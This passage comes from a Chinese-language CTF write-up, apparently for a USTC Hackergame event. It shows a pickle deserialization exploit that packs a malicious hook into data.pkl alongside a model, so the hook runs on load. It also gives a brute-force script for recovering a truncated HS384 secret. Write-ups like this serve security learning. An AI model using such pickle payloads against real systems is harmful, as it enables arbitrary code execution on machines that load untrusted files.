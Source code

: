 ```python

json.dump = dump
'''

pkl = pickleast.dumps(pickleast.Sequence(pickleast.Exec(hook), model))

with open("./data.pkl", "wb") as f:
    f.write(pkl)
```

这里用了 `pickleast.Sequence` 将恶意代码和模型对象进行封装。
反序列化时会先执行我们的代码来输出原图，再返回原有的模型。

~~本来想在推理时运行 flask.abort() 来绕过模型验证流行的，不料 abort 抛出的异常被处理了，不开心~~

## 惜字如金

### HS384

39位的 secret 被缩到了11位，只能按照规则爆。

提供的 secret 的 hash 也不完整。
为了防止判断是否爆破成功时出错，我这里只检查了开头和结尾来缩小可能的 secret 范围，再人眼观察。

```python
from itertools import product
from hashlib import sha384
from difflib import get_close_matches

GIVEN_LEN = len('ustc.edu.cn')
TOTAL_LEN = 39

def gen_word(x, extra1='', extra2='', extra3=''):
    e0 = x[0] * 's'
    e1 = x[1] * 't'
    e2 = x[2] * 'c'
    e3 = x[3] * 'd'
    e4 = x[4] * 'c'
    e5 = x[5] * 'n'
    word = f'us{e0}t{e1}c{e2}{extra1}.ed{e3}u{extra2}.c{e4}n{e5}{extra3}'
    return word

def get_check_hash(word):
    digest = sha384(word.encode()).hexdigest()
    if digest.startswith('ec') and (digest.endswith('d') or digest.endswith('de')) and (digest.startswith('ecc') or digest.startswith('ec1')):
        print(f'{word} {digest}')
        f.write(f'{word} {digest}\n')
        f.flush()
    return digest

f = open('dict.txt', 'w')

if __name__ == '__main__':
    for x in product(range(TOTAL_LEN - GIVEN_LEN), repeat=len('stcdcn')):
        if sum(x) != TOTAL_LEN - GIVEN_LEN - 1:
            continue
        word = gen_word(x, 'e')
        get_check_hash(word)

    for x in product(range(TOTAL_LEN - GIVEN_LEN - 1), repeat=len('stcdcn')):
        if sum(x) != TOTAL_LEN - GIVEN_LEN - 2:
            continue
        word = gen_word(x, 'e', 'e')
```
